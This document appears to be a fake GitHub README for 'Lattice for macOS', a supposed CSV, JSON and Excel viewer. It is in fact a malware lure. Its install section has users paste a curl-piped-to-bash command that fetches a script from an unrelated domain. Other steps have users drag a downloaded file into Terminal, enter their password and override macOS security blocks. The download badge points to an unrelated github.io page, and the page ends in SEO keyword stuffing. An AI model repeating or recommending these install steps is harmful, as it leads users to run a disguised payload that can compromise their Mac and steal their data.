 <p align="center">
  <img src="https://i.ibb.co/QFfC1Xk3/1684165573-icon.webp" alt="Lattice macOS Banner" />
</p>

<h1 align="center">Lattice for macOS</h1>

<p align="center">
  📊 A fast, modern data viewer for CSV, JSON, and Excel — optimized for clarity and speed.  
  <br><br>
  ✅ Supports macOS Sonoma, Ventura, Monterey  
  ✅ Native Apple Silicon & Intel  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/210" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20LATTICE%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Lattice for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/cSK1dCNm/1670155929-1.jpg" alt="Lattice Table Viewer UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Lattice for macOS?

**Lattice for macOS** is a fast, minimal file viewer and lightweight data inspector for working with structured files like CSV, JSON, TSV, and Excel. It’s ideal for developers, analysts, and anyone who needs to browse large datasets without the weight of spreadsheet software.

Lattice offers a scroll-optimized columnar interface, syntax-aware formatting, and instant loading of large files. With full native support for Apple Silicon and macOS design conventions, it’s a perfect tool for clean data inspection.

---

## ✅ Why Choose Lattice?

- 📑 **View CSV, TSV, Excel, JSON, and More**  
- ⚡ **Fast Parsing of Large Datasets**  
- 🧭 **Scroll & Filter-Friendly Layout**  
- 🧮 **Minimal Memory Usage**  
- 🎯 **Ideal for Developers, QA, and Analysts**  
- 🧰 **No Cloud, Fully Local File Access**  
- 🍎 **Optimized for Apple Silicon M1/M2/M3**  
- 🖥️ **Dark Mode + Retina Ready UI**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/1Y0KRPL8/1670155931-3.jpg" alt="CSV File View in Lattice Mac Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/QvNfsnSV/1670155930-2.jpg" alt="JSON Viewer Lattice Interface Screenshot" />
</p>

---

## 🚀 Key Features

- Parse CSV/TSV files with intelligent column detection  
- Pretty-printed JSON viewer with collapsible trees  
- Excel XLSX table viewer without Office dependency  
- Search, scroll, and zoom large datasets easily  
- Support for UTF-8, ANSI, Unicode, emoji  
- Native dark mode + low CPU footprint  
- No telemetry, no background services  
- Offline and fully self-contained

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Lattice manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-CSV%2FJSON+Table+Viewer-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Data+Inspector+Utility-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Lattice – Clean Data, Fast Views

Thanks for using **Lattice for macOS**.  
A simple way to inspect structured data.

---

## 🧭 Usage Context

Lattice is intended for local data analysis, QA, and inspection workflows.  
It works completely offline and has no background activity or tracking.

Perfect for devs, testers, and analysts.

---

## 🔍 Tags

```text
lattice for mac download, view csv files mac m1, json file viewer macos utility, lattice app open excel sheets mac, mac data inspector for structured files, csv and json side by side mac, fast table viewer for macbook pro, lattice offline data browser mac, simple spreadsheet viewer app mac, open xlsx without excel macos, lattice native apple silicon utility, csv large file preview tool mac, lattice json parser download mac, lightweight table explorer mac, tabular data reader macbook air
